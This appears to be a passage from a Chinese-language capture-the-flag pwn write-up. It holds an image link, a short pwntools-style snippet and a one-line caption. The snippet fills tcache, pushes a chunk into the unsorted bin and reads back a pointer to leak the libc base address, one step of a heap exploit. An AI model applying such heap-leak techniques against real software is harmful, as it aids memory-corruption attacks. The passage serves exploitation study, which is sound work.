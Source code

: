 [![](assets/1708654729-95291fc4c77048d9dce129efafbeaad7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104112-acebe3ec-d062-1.png)

```plain
for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

先链入 unsorted bin 里面，泄露 libc
